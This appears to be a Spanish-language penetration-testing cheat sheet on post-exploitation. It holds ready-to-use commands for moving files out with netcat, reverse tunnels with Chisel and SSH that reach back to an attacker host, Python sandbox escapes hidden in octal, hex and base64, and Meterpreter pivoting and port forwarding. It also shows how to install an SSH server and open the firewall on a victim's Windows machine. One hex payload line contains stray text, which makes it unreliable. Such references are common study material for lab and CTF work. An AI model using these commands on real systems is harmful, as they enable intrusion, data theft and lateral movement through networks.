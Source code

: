 # Postexplotacion

1. [Escalado de privilegios](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#Escalado-de-privilegios)
	* [Linux](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md)
	* [Windows](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Windows.md)
1. [Transferencia de archivos](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#transferencia-de-archivos)
1. [Port Forwarding](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#port-forwarding)
1. [Saltando sandbox](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#saltando-sandbox)
1. [Meterpreter](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#meterpreter)
1. [Pivoteando](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#pivoteando)

## Escalado de privilegios

* [Linux](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md)
* [Windows](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Windows.md)

## Transferencia de archivos

### Netcat

```bash
#envio archivo
nc x.x.x.x port < file.txt
#recibo archivo
nc -lvnp port > file.txt
```

Web Server con NC
```bash
while:; do nc -q 0 -l 80 <<EOF
HTTP/1.1 200 OK
Content-Type: Text/html

<html>
	<body>
		<h1>Current Date is $(date)</h1>
	</body>
</html>
EOF
done
```

## Port Forwarding

Para mandar un servicio que esta corriendo solo para el host local, hacia hosts remotos (o red local a red externa). Tambien puede servir para servicios que necesitan de GUI y no se pueden levantar desde una shell

### SSH
```bash
Local
ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
Remote
ssh -R remotePort:localhost:localPort x.x.x.x
Dinamico
ssh -D <local proxy port> -p <remote port> <target>
```

### Chisel
```bash
#atacante
$chisel server -p 9999 --reverse
#victima
$chisel client IPAtacante:9999 R:RPort:127.0.0.1:LPort
```

### sshuttle
```bash
sshuttle -vvr user@x.x.x.x
```

### Plink (windows)
```bash
plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>
```

* [sshuttle](https://github.com/sshuttle/sshuttle)

## Saltando sandbox

### Python

#### OS Command execution

```bash
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')
```

#### Octal

```bash
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```

#### Hexa
```bash
exec("\x5f\x5f\x69\x6d\xIf youca70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
```

#### b64

```bash
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #
```

Py2
```bash
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
```

## Meterpreter

	* [Meterpreter]

## Pivoteando

### Meterpreter

```bash
>run autoroute -s IP_red_victima/MASK

#sshutle
```

### General

```
1) transferir Chisel a la maquina victima

2) en maquina atacante
$./chisel server -p 1337 --reverse

3) en maquina victima
$./chisel client 192.168.1.1:1337 R:socks #linux
>chisel.exe client 192.168.1.1:1337 R:socks #windows

4) si todo correcto en maquina atacante recibimos
2021/01/15 17:11:47 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

5) agregamos esta linea al /etc/proxychains.conf
socks5 127.0.0.1 1080 #el puerto de 4

6) tiramos comandos a traves de proxychains
#ejemplo
$proxychains nmap -sS IP_victima2
```

### Linux
```bash
#Agregar ruta
ip route add [net/mask] via [gatewayip] dev [device]
```

### Windows
```powershell
route add [subnet] [netmask] [meterpreterSessionId]
```

```powershell
//Descomprimir el archivo
powershell -command "Expand-Archive 'C:\openssh.zip' c:\ruta\"

//Instalar el openSSH
powershell -ExecutionPolicy Bypass -File c:\install-sshd.ps1

//añadir reglas al firewall
powershell -Command "New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22"

//empezar el sshd service
net start sshd

//Desde el host, linux en este caso
ssh -ACv -D <tunnel_port> <windows-user>@<windows-ip>
```

### Meterpreter
```
#una vez hechas las rutas en el SO victima
ms6> route add [subnet] [netmask] [meterpreterSessionId]
ms6> use auxiliary/server/socks_proxy
set version 4a
set srvport 9050
run -j

Desde aca podemos usar proxychains o usar el proxy 127.0.0.1:9050 para navegar en las redes privadas
```

#### portforwarding
```
meterpreter> portfwd add -l [localport_atacante] -p [remoteport_victima] -r [remotehost_victima]
meterpreter> portfwd list (para comprobar)
meterpreter> bg
msf6> nmap -sS -sV -p [localport_recienConfigurado] localhost
exploit normalmente como si llegaramos a la IP
```

